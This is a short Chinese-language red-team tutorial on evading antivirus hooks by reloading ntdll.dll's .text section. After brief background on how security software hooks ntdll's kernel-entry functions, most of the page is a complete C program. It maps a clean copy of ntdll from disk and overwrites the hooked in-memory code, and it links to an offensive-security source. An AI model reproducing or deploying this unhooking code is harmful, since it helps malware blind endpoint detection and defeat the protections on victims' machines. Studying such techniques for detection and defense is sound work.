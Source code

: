 # 重新加载.text节拖钩

## 简介

以前简单介绍过[inline hook](../persistence/detous-inline-hook.md)，杀软会对ntdll进入内核的函数进行挂钩，从而实现检测和阻止，这篇文章主要是对实现过程中遇到的一些小坑进行记录，mantvydasb师傅已经对这种技术有详尽的解释，并没有什么特别复杂的操作，只是把ntdll的.text\(代码节\)进行了读取覆盖。

![](../.gitbook/assets/image%20%28191%29.png)

## 流程

1. 读取ntdll进内存
2. 读取覆盖.text节

## 代码

代码是对mantvydasb师傅拙劣的模仿（直接抄233）。

ps:使用MapViewOfFile读取文件会直接在内存里展开，并不需要像反射加载一样自己去修复重定位表。

```text
#include <Windows.h>
#include <psapi.h>

int main()
{
	MODULEINFO mInfo = { 0 };
	HANDLE hProcess = GetCurrentProcess();

	//get address of ntdll in virtual memory 
	HMODULE hNtdll = GetModuleHandleA("ntdll.dll");
	GetModuleInformation(hProcess, hNtdll, &mInfo, sizeof(mInfo));
	LPVOID lpNtdllbase = (LPVOID)mInfo.lpBaseOfDll;
	
	HANDLE hNtdllfile = CreateFileA("c:\\windows\\system32\\ntdll.dll", GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_EXISTING, 0, NULL);
	HANDLE hNtdllMapping = CreateFileMapping(hNtdllfile, NULL, PAGE_READONLY | SEC_IMAGE, 0, 0, NULL);
	LPVOID lpNtdllmaping = MapViewOfFile(hNtdllMapping, FILE_MAP_READ, 0, 0, 0);

	PIMAGE_DOS_HEADER pDosheader = (PIMAGE_DOS_HEADER)lpNtdllbase;
	PIMAGE_NT_HEADERS pNtheader = (PIMAGE_NT_HEADERS)((DWORD_PTR)lpNtdllbase + pDosheader->e_lfanew);

	for (WORD i = 0; i < pNtheader->FileHeader.NumberOfSections; i++) {
		PIMAGE_SECTION_HEADER pSectionheader = (PIMAGE_SECTION_HEADER)((DWORD_PTR)IMAGE_FIRST_SECTION(pNtheader) + ((DWORD_PTR)IMAGE_SIZEOF_SECTION_HEADER * i));

		if (!strcmp((char*)pSectionheader->Name, (char*)".text")) {
			DWORD oldProtection = 0;
			bool isProtected = VirtualProtect((LPVOID)((DWORD_PTR)lpNtdllbase + (DWORD_PTR)pSectionheader->VirtualAddress), pSectionheader->Misc.VirtualSize, PAGE_EXECUTE_READWRITE, &oldProtection);
			memcpy((LPVOID)((DWORD_PTR)lpNtdllbase + (DWORD_PTR)pSectionheader->VirtualAddress), (LPVOID)((DWORD_PTR)lpNtdllmaping + (DWORD_PTR)pSectionheader->VirtualAddress), pSectionheader->Misc.VirtualSize);
			isProtected = VirtualProtect((LPVOID)((DWORD_PTR)lpNtdllbase + (DWORD_PTR)pSectionheader->VirtualAddress), pSectionheader->Misc.VirtualSize, oldProtection, NULL);
		}
	}

	CloseHandle(hProcess);
	CloseHandle(hNtdllfile);
	CloseHandle(lpNtdllmaping);
	FreeLibrary(hNtdll);

	return 0;
}
```

## LINKS

{% embed url="https://www.ired.team/offensive-security/defense-evasion/how-to-unhook-a-dll-using-c++" %}




